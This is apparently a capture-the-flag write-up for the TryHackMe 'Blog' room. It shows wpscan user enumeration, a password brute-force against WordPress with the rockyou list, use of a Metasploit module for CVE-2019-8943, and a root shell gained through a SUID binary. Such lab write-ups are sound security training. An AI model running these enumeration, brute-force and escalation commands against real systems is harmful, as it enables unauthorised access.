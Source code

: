 # Blog
[TryHackme room link](https://tryhackme.com/room/blog)

# Informations about the room
> Billy Joel made a blog on his home computer and has started working on it.  It's going to be so awesome!
Enumerate this box and find the 2 flags that are hiding on it!  Billy has some weird things going on his laptop.  Can you maneuver around and get what you need?  Or will you fall down the rabbit hole...
In order to get the blog to work with AWS, you'll need to add blog.thm to your /etc/hosts file.

# Open ports

SSH

HTTP

Smb

# Enumeration

Inside the Smb share there are 3 files, one Taylor Swift song and 2 photos

Nothing very interesting

There is wordpress on the server

Enumerating users with WPScan:

`wpscan --url blog.thm --enumerate u`

Two usernames are discovered:

```
kwheel
bjoel
```

This wordpress version, 5.0, is vulnerable to [CVE-2019-8943](https://nvd.nist.gov/vuln/detail/CVE-2019-8943), an Image Remote Code Execution vulnerability

There is a [metasploit module](https://www.exploit-db.com/exploits/46662) for this CVE but it needs credentials

So the only thing left is to bruteforce the wordpress admin panel

`wpscan --url http://blog.thm -P /usr/share/wordlists/rockyou.txt -U kwheel -t 75`

It finds a password:

```console
[!] Valid Combinations Found:
| Username: kwheel, Password: REDACTED
```

# Privilege escalation

After using the metasploit module we are user `www-data`

After enumerating SUID binaries

`find / -perm -u=s -type f 2>/dev/null`

We find a `/usr/sbin/checker`

It checks for a `admin` env var and if the value is 1 it spawns a root shell:

```console
export admin=1
/usr/sbin/checker
id
uid=0(root) gid=33(www-data) groups=33(www-data)
```
